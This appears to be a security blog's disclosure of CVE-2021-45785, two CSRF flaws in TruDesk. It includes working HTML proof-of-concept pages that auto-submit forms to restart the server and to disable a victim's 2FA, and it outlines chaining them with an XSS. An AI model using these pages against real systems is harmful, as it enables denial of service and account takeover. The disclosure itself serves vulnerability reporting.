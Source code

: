 === Content from 1d8.github.io_4d74f24c_20250111_053724.html ===

[skip to content](#main)

W3C
SVG

[![Logo No Loado](/images/logo.svg)](https://1d8.github.io/)

The blog of a curious cybersecurity collegiate

## Main navigation

Menu

* [Cheatsheets](/cheatsheets/)
* [CVEs](/cves/)
* [Publications](/publications/)
* [Writeups/Walkthroughs](/writeups/)

# CVE-2021-45785 - CSRF on TruDesk

# Description

There is a CSRF vulnerability which would allow an attacker to restart the server by simply having a victim with the appropriate privileges visit an attacker’s crafted webpage.

The vulnerability exists when performing a GET request to the /api/v1/admin/restart endpoint

There is also another CSRF vulnerability which would allow an attacker to disable a victim’s 2FA (`/api/v1/users/<user ID>/removel2auth`). This requires the victim’s user ID, but this can easily be obtained by simply deleting a conversation with the victim which is a vulnerability that I described here: <https://huntr.dev/bounties/74c6f886-2869-4b32-bef3-2cb3991a9311>

# Proof of Concept (PoC)

For resetting the server

```
//serverReset.html
<html>
    <form action="https://docker.trudesk.io/api/v1/admin/restart" method="GET"/>
    <script>
        document.forms[0].submit();
    </script>
</html>

```

For disabling 2FA

```
<html>
   < -- change the user ID to the user ID of the victim for which you're disabling 2FA -- >
    <form action="https://docker.trudesk.io/api/v1/users/<user ID>/removel2auth" method="POST"/>
    <script>
        document.forms[0].submit();
    </script>
</html>

```
# Impact

This vulnerability is capable of performing a DoS attack on the server which can have a major business impact. It can be paired with the XSS vulnerability that I found & reported previously to create an even more effective DoS attack.

For example, an attacker could craft an XSS payload that would automatically redirect a victim to their webpage where the CSRF attack that restarts the server would take place. The attacker could spam the victim with messages that contain the XSS payload. Then each time the attacker opens the message, the victim would be redirected & the CSRF attack would take place and the server would restart.

# References

* <https://huntr.com/bounties/af3ecce4-840f-445e-98d0-11557cd8de1f>

dark theme:

Checkout my [Github!](https://github.com/1d8)


